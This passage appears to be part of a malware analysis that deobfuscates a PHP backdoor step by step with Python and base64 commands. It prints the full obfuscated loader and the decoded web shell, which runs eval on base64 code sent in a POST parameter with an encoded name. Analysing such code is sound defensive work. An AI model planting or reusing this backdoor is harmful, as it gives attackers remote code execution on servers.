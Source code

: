 ```python
>>> order = [59, 71, 73, 13, 35, 10, 20, 81, 76, 10, 28, 63, 12, 1, 28, 11, 76, 68, 50, 30, 11, 24, 7, 63, 45, 20, 23, 68, 87, 42, 24, 60, 87, 63, 18, 58, 87, 63, 18, 58, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 17, 37, 63, 58, 37, 91, 63, 83, 43, 87, 42, 24, 60, 87, 93, 18, 87, 66, 28, 48, 19, 66, 63, 50, 37, 91, 63, 17, 1, 87, 93, 18, 45, 66, 28, 48, 19, 40, 11, 25, 5, 70, 63, 7, 37, 91, 63, 12, 1, 87, 93, 18, 81, 37, 28, 48, 19, 12, 63, 25, 37, 91, 63, 83, 63, 87, 93, 18, 87, 23, 28, 18, 75, 49, 28, 48, 19, 49, 0, 50, 37, 91, 63, 18, 50, 87, 42, 18, 90, 87, 93, 18, 81, 40, 28, 48, 19, 40, 11, 7, 5, 70, 63, 7, 37, 91, 63, 12, 68, 87, 93, 18, 81, 7, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 18, 17, 37, 0, 50, 5, 40, 42, 50, 5, 49, 42, 25, 5, 91, 63, 50, 5, 70, 42, 25, 37, 91, 63, 75, 1, 87, 93, 18, 1, 17, 80, 58, 66, 3, 86, 27, 88, 77, 80, 38, 25, 40, 81, 20, 5, 76, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 7, 88, 32, 45, 7, 90, 52, 80, 58, 5, 70, 63, 7, 5, 66, 42, 25, 37, 91, 0, 12, 50, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 48, 19, 7, 63, 50, 5, 37, 0, 24, 1, 87, 0, 24, 72, 66, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 1, 87, 93, 18, 11, 66, 28, 18, 87, 70, 28, 48, 19, 7, 63, 50, 5, 37, 0, 18, 1, 87, 42, 24, 60, 87, 0, 24, 17, 91, 28, 18, 75, 49, 28, 18, 45, 12, 28, 48, 19, 40, 0, 7, 5, 37, 0, 24, 90, 87, 93, 18, 81, 37, 28, 48, 19, 49, 0, 50, 5, 40, 63, 25, 5, 91, 63, 50, 5, 37, 0, 18, 68, 87, 93, 18, 1, 18, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 90, 87, 0, 24, 72, 37, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 48, 19, 40, 90, 25, 37, 91, 63, 18, 90, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 75, 70, 28, 48, 19, 40, 90, 58, 37, 91, 63, 75, 11, 79, 28, 27, 75, 3, 42, 23, 88, 30, 35, 47, 59, 71, 71, 73, 35, 68, 38, 63, 8, 1, 38, 45, 30, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 23, 75, 77, 1, 28, 1, 43, 52, 31, 19, 75, 81, 40, 30, 75, 1, 27, 75, 77, 35, 47, 59, 71, 71, 71, 73, 21, 4, 37, 51, 40, 4, 7, 91, 7, 4, 37, 77, 49, 4, 7, 91, 70, 4, 37, 49, 51, 4, 51, 91, 4, 37, 70, 6, 4, 7, 91, 91, 4, 37, 51, 70, 4, 7, 91, 49, 4, 37, 51, 6, 4, 7, 91, 91, 4, 37, 51, 70, 21, 47, 93, 8, 10, 58, 82, 59, 71, 71, 71, 82, 59, 71, 71, 29, 29, 47]
>>>
>>> data = ""
>>> for i in order:
...   data += terms[i]
...
>>> print data
$_= 'aWYoaXNzZXQoJF9QT1NUWyJcOTdcNDlcNDlcNjhceDRGXDg0XDExNlx4NjhcOTdceDc0XHg0NFx4NEZceDU0XHg2QVw5N1x4NzZceDYxXHgzNVx4NjNceDcyXDk3XHg3MFx4NDFcODRceDY2XHg2Q1w5N1x4NzJceDY1XHg0NFw2NVx4NTNcNzJcMTExXDExMFw2OFw3OVw4NFw5OVx4NkZceDZEIl0pKSB7IGV2YWwoYmFzZTY0X2RlY29kZSgkX1BPU1RbIlw5N1w0OVx4MzFcNjhceDRGXHg1NFwxMTZcMTA0XHg2MVwxMTZceDQ0XDc5XHg1NFwxMDZcOTdcMTE4XDk3XDUzXHg2M1wxMTRceDYxXHg3MFw2NVw4NFwxMDJceDZDXHg2MVwxMTRcMTAxXHg0NFw2NVx4NTNcNzJcMTExXHg2RVx4NDRceDRGXDg0XDk5XHg2Rlx4NkQiXSkpOyB9';$__='JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7';$___="\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65";eval($___($__));
>>>
```

Let's do the `eval` manually. The `$__` variable is referenced first and it looks like to be base64 encoded. Let's decode it:

```
$ echo -en "JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7" | base64 -d -
$code=base64_decode($_);eval($code);
$
```

So, this code will base64 decode the `$_` variable and that's what we need to do next:

```
$ echo -en "aWYoaXNzZXQoJF9QT1NUWyJcOTdcNDlcNDlcNjhceDRGXDg0XDExNlx4NjhcOTdceDc0XHg0NFx4NEZceDU0XHg2QVw5N1x4NzZceDYxXHgzNVx4NjNceDcyXDk3XHg3MFx4NDFcODRceDY2XHg2Q1w5N1x4NzJceDY1XHg0NFw2NVx4NTNcNzJcMTExXDExMFw2OFw3OVw4NFw5OVx4NkZceDZEIl0pKSB7IGV2YWwoYmFzZTY0X2RlY29kZSgkX1BPU1RbIlw5N1w0OVx4MzFcNjhceDRGXHg1NFwxMTZcMTA0XHg2MVwxMTZceDQ0XDc5XHg1NFwxMDZcOTdcMTE4XDk3XDUzXHg2M1wxMTRceDYxXHg3MFw2NVw4NFwxMDJceDZDXHg2MVwxMTRcMTAxXHg0NFw2NVx4NTNcNzJcMTExXHg2RVx4NDRceDRGXDg0XDk5XHg2Rlx4NkQiXSkpOyB9" | base64 -d -
if(isset($_POST["\97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F\x54\x6A\97\x76\x61\x35\x63\x72\97\x70\x41\84\x66\x6C\97\x72\x65\x44\65\x53\72\111\110\68\79\84\99\x6F\x6D"])) {
 eval(base64_decode($_POST["\97\49\x31\68\x4F\x54\116\104\x61\116\x44\79\x54\106\97\118\97\53\x63\114\x61\x70\65\84\102\x6C\x61\114\101\x44\65\x53\72\111\x6E\x44\x4F\84\99\x6F\x6D"]));
}
$
```
